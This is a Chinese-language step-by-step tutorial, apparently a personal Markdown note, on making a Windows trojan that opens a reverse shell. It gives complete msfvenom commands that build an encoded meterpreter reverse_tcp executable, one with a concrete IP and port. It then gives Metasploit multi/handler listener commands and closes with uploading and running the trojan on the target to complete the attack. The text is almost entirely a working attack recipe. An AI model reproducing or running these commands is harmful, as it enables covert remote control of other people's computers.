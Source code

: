 生成木马反弹 shell（Windows）

## 一、环境准备

1. MSF-Metasploit Framework
2. 一台 windiows 靶机

## 二、开始生成木马

1. 使用 msfvenom 生成木马
2. 终端内输入: msfvenom -p windows/meterpreter_reverse_tcp LHOST={监控 IP} LPORT={监控端口} -e x86/shikata_ga_nai -f exe -o new.exe -i 5

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.38 LPORT=4567 -e x86/shikata_ga_nai -f exe -o shell.exe -i 5

## 三、配置监控

1. 启动 msf 终端内输入：msfconsole 启动 msf  
![[1642501758409.png]]

2. 载入监控模块 msf 中输入： use exploit/multi/handler

   ![[1642501831818.png]]

3. 加载 payload msf 终端中输入：set payload windows/meterpreter/reverse_tcp
4. 配置 payload msf 终端中输入：show options
5. 配置 payload 监控 IP msf 终端中输入： set lhost {监控 IP}
6. 配置 payload 监控端口 msf 终端中输入：set lport {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）
7. 检查 payload 配置 msf 终端中输入：show options ![1642501934250](1642501934250.png)
8. 执行监控 msf 终端中输入： run

## 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用![1642501969373](1642501969373.png)
